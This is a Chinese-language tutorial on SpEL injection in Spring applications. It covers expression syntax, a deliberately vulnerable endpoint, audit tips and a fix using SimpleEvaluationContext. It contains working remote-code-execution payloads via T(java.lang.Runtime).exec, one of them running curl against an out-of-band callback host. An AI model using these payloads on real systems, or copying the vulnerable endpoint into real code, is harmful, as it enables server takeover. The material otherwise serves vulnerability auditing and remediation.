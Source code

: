


Spring Expression Language（简称 SpEL）是一种功能强大的表达式语言、用于在运行时查询和操作对象图；语法上类似于Unified EL，但提供了更多的特性，特别是方法调用和基本字符串模板函数。SpEL 的诞生是为了给 Spring 社区提供一种能够与Spring 生态系统所有产品无缝对接，能提供一站式支持的表达式语言。

# 1.SpEL 基础

在 pom.xml 导入 maven 或是把"org.springframework.expression-3.0.5.RELEASE.jar"添加到类路径中

    <properties>
    	<org.springframework.version>5.0.8.RELEASE</org.springframework.version>
    </properties>
    
    <dependency>
    	<groupId>org.springframework</groupId>
    	<artifactId>spring-expression</artifactId>
    	<version>${org.springframework.version}</version>
    </dependency>
    

## SpEL 使用方式

SpEL 在求表达式值时一般分为四步，其中第三步可选：-
首先构造一个解析器，其次解析器解析字符串表达式，在此构造上下文，最后根据上下文得到表达式运算后的值。

    ExpressionParser parser = new SpelExpressionParser();
    Expression expression = parser.parseExpression("('Hello' + ' lisa').concat(#end)");
    EvaluationContext context = new StandardEvaluationContext();
    context.setVariable("end", "!");
    System.out.println(expression.getValue(context));
    

1.创建解析器：**SpEL 使用 ExpressionParser 接口表示解析器，提供 SpelExpressionParser 默认实现；**-
2.解析表达式：使用 ExpressionParser 的 parseExpression 来解析相应的表达式为 Expression 对象。-
3.构造上下文：准备比如变量定义等等表达式需要的上下文数据。-
4.求值：通过 Expression 接口的 getValue 方法根据上下文获得表达式值。

## spel表达式三种用法

1.  注解
    

    @value("#{表达式}")
    public String arg;
    

这种一般是写死在代码中的，不是关注的重点

2.  xml
    

    <bean id="Bean1" class="com.test.xxx">
    	<property name="arg" value="#{表达式}">
    </bean>
    

这种情况通常也是写死在代码中的，但是也有已知的利用场景，就是利用反序列化让程序加载我们实现构造好的恶意xml文件，如jackson的CVE-2017-17485、weblogic的CVE-2019-2725等。

3.  在代码中处理外部传入的表达式这部分是关注的重点。
    

    @RequestMapping("/spel")
    public String spel(@RequestParam(name = "spel") String spel) {
    	ExpressionParser expressionParser = new SpelExpressionParser();
    	Expression expression =expressionParser.parseExpression(spel);//将spel路径set进去
    	Object object = expression.getValue();//获取到spel执行后的内容
    	return object.toString();
    }
    

## 漏洞利用的前置条件

1.  传入的表达式未过滤
    
2.  表达式解析之后调用了getValue/setValue方法
    
3.  使用StandardEvaluationContext（默认）作为上下文对象
    

# 2.SpEL语法

SpEL使用 #{...} 作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法如：

> 引用其他对象: #{car}-
> 引用其他对象的属性： #{car.brand}-
> 调用其它方法 , 还可以链式操作： #{car.toString()}

其中属性名称引用还可以用 $符号 如： ${someProperty}-
**除此以外在SpEL中，使用 T() 运算符会调用类作用域的方法和常量。**-
类类型表达式：**使用"T(Type)"来表示 java.lang.Class 实例，"Type"必须是类全限定名，"java.lang"包除外，即该包下的类可以不指定包名；使用类类型表达式还可以进行访问类静态方法及类静态字段。**

例如，在SpEL中使用Java的 Math类，我们可以像下面的示例这样使用 T()运算符：-
#{T(java.lang.Math)}-
T()运算符的结果会返回一个 java.lang.Math类对象。

# 3、案例

[http://localhost:8080/spel/vuln?expression=T(java.lang.Runtime).getRuntime().exec('calc')](http://localhost:8080/spel/vuln?expression=T(java.lang.Runtime).getRuntime().exec('calc'))

    /**
         * SpEL to RCE
         * http://localhost:8080/spel/vul/?expression=xxx.
         * xxx is urlencode(exp)
         * exp: T(java.lang.Runtime).getRuntime().exec("curl xxx.ceye.io")
         */
        @GetMapping("/spel/vuln")
        public String rce(String expression) {
            ExpressionParser parser = new SpelExpressionParser();
            // fix method: SimpleEvaluationContext
            Expression expression1 = parser.parseExpression(expression);
            Object obje = expression1.getValue();
            String obj_str = obje.toString();
            return obj_str;
    	}
    

# 4、审计方法

可以先全局搜索 org.springframework.expression.spel.standard,或是 expression.getValue()、expression.setValue()，定位到具体漏洞代码，再分析传入的参数能不能利用，最后再追踪参数来源，-
看看是否可控。

# 5、修复建议

SimpleEvaluationContext、StandardEvaluationContext 是 SpEL提供的两个 EvaluationContext

> SimpleEvaluationContext - 针对不需要 SpEL 语言语法的全部范围并且应该受到有意限制的表达式类别，公开 Spal 语言特性和配置选项的子集。-
> StandardEvaluationContext - 公开全套 SpEL 语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

SimpleEvaluationContext 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用；所以最直接的修复方式是使**用 SimpleEvaluationContext 替换StandardEvaluationContext**-
修复代码：

    @GetMapping("/spel/sec")
    public String spel_sec(String expression) {
    	ExpressionParser parser = new SpelExpressionParser();
    	//只读属性
    	EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
    	return parser.parseExpression(expression).getValue(context).toString();
    }
    

# 6、关键词

SpelExpressionParser StandardEvaluationContext#{